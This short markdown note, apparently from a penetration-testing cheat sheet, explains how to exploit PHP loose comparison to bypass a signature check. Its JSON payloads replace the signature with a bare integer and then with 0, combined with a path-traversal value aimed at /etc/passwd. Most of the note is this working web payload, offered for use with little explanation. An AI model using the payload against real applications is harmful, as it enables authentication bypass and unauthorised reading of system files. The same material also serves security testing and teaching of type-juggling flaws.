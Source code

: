 ### Test for loose comparison  
Condsider the below JSON:  
```
{ "token": "Tzo0OiJVc2VyIjoyOntzOjI6ImlkIjtzOjE6IjEiO3M6NToibG9naW4iO3M6MzoieHl6Ijt9--7b03604a9f3aae595030f67cb4f8bf5a", 
"uuid": "file5fb5d349059515fb5d34905ad8", 
"sig": "852ab168684cd46deedc20d0abcd30f6"}
```

We can check for a loose comparion in the signature by removing the quotes around the value and removing everything after the first lot of decimals EG
```
{ "token": "Tzo0OiJVc2VyIjoyOntzOjI6ImlkIjtzOjE6IjEiO3M6NToibG9naW4iO3M6MzoieHl6Ijt9--7b03604a9f3aae595030f67cb4f8bf5a", 
"uuid": "file5fb5d349059515fb5d34905ad8", 
"sig": 852}
```

### ^^^ If this is the case, we can that type juggle
As per below, we keep changing the path until eventually the signature starts with `a,b,c,d,e or f`, in which case it will be cast an integer, with it's value as 0
```
{ "token": "Tzo0OiJVc2VyIjoyOntzOjI6ImlkIjtzOjE6IjEiO3M6NToibG9naW4iO3M6MzoieHl6Ijt9--7b03604a9f3aae595030f67cb4f8bf5a", 
"uuid": "../../.././././etc/passwd", 
"sig": 0}
```

